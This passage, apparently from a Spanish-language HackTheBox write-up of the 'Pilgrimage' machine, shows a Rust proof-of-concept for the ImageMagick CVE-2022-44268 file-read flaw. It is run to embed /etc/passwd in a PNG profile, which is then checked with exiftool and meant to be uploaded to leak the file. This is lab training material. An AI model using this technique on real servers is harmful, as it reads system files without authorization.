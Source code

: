 Ejecutaremos el proyecto a través de `cargo run` y le indicaremos el nombre del archivo que queremos leer, en este caso, el archivo es el de `/etc/passwd`. El propio proyecto ya nos proporciona una imagen de prueba en la cual le inyectaremos la vulnerabilidad.

```bash
❯ cargo run "/etc/passwd"
   Compiling crc32fast v1.3.2
   Compiling cfg-if v1.0.0
   Compiling adler v1.0.2
   Compiling bitflags v1.3.2
   Compiling hex v0.4.3
   Compiling miniz_oxide v0.6.2
   Compiling flate2 v1.0.25
   Compiling png v0.17.7
   Compiling cve-2022-44268 v0.1.0 (/home/kali/Desktop/HackTheBox/Linux/Pilgrimage/CVE-2022-44268)
    Finished `dev` profile [unoptimized + debuginfo] target(s) in 3.51s
     Running `target/debug/cve-2022-44268 /etc/passwd`
❯ ls -l
drwxrwxr-x kali kali 4.0 KB Tue Feb 18 00:43:09 2025  screens
drwxrwxr-x kali kali 4.0 KB Tue Feb 18 00:43:09 2025 󱧼 src
drwxrwxr-x kali kali 4.0 KB Tue Feb 18 00:43:56 2025  target
.rw-rw-r-- kali kali 1.9 KB Tue Feb 18 00:43:09 2025  Cargo.lock
.rw-rw-r-- kali kali 212 B  Tue Feb 18 00:43:09 2025  Cargo.toml
.rw-rw-r-- kali kali 1.6 KB Tue Feb 18 00:43:56 2025  image.png
.rw-rw-r-- kali kali 1.1 KB Tue Feb 18 00:43:09 2025  README.md
```

Revisaremos mediante `exiftool` la imagen, y comprobaremos que en el `Profile` se ha incrustado el archivo `/etc/passwd`. Por lo tanto, si subimos esta imagen maliciosa en la página web y se redimensiona mediante `ImageMagick` tal y como comprobamos anteriormente, si es vulnerable, posteriormente deberíamos poder listar el contenido del archivo arbitrario indicado.

```bash
❯ exiftool image.png
ExifTool Version Number         : 13.10
File Name                       : image.png
Directory                       : .
File Size                       : 1653 bytes
File Modification Date/Time     : 2025:02:18 00:43:56+01:00
File Access Date/Time           : 2025:02:18 00:43:56+01:00
File Inode Change Date/Time     : 2025:02:18 00:43:56+01:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 200
Image Height                    : 200
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Profile                         : /etc/passwd
Image Size                      : 200x200
Megapixels                      : 0.040
```
